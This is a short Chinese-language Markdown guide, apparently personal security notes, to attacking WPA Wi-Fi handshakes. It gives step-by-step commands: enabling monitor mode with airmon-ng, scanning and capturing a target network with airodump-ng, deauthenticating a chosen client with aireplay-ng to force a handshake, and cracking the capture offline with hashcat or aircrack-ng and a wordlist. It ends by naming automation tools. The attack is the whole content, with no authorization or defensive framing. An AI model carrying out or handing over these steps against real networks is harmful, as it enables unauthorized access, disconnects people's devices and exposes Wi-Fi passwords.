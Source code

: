 # WPA 握手包攻击

## 手动

1. 查看网络设备, 获取无线网卡名称.

    ```sh
    iwconfig
    ```

2. 开启无线网卡监听模式.

    ```sh
    sudo airmon-ng start wlan0
    ```

    若设备被占用, 执行下列命令来结束占用设备的进程:  

    ```sh
    sudo airmon-ng check kill
    ```

    开启监听模式后, 无线网卡名称发生改变. 后面会附加 `mon` (monitor), 即 `wlan0mon`.

    !!! warning
        监听模式开启后的无线网卡将无法访问 Internet, 直到监听模式被关闭.

3. 监听 Wi-Fi 信号.

    ```sh
    sudo airodump-ng wlan0mon
    ```

    当发现目标 Wi-Fi 时按 `Ctrl+C` 停止扫描. 并记录 BSSID 和 CH 两个参数.

4. 捕获指定 Wi-Fi 通信内容.

    ```sh
    sudo airodump-ng -w [.cap file] -c [CH] --bssid [BSSID] wlan0mon
    ```

5. 断开指定设备与指定 Wi-Fi 的链接.

    ```sh
    sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
    ```

    目标设备从指定 Wi-Fi 断开链接后将尝试重连, 会向路由器发送握手包. 而第 4 步将会捕获这个握手包.

6. 当第 4 步提示捕获握手包时按下 `Ctrl+C` 结束监听.

    此时, 握手包的数据已经被记录在第4步指定的 `.cap` 文件中.

7. 对 `.cap` 文件中握手包的 hash 进行破解.

    - 使用 Hashcat. (推荐)

        ```sh
        aircrack-ng [.cap file] -j [.haccpx file]       # 将 .cap 文件转为 hashcat 接受的 .haccpx 文件
        hashcat -m 2500 -a 0 [.hccapx file] [dict file] # 利用 hashcat 进行破解
        ```

    - 使用 aircrack-ng.

        ```sh
        aircrack-ng [.cap file] -w [dict file]
        ```

8. 关闭无线网卡监听模式.

    ```sh
    sudo airmon-ng stop wlan0mon
    ```

    若第 2 步中结束的进程没有自动恢复, 则需要手动启动.

## 自动化

可以利用 Airgeddon/[wifite2](https://github.com/derv82/wifite2)/[WEF](https://github.com/D3Ext/WEF) 等工具来简化上面的流程.
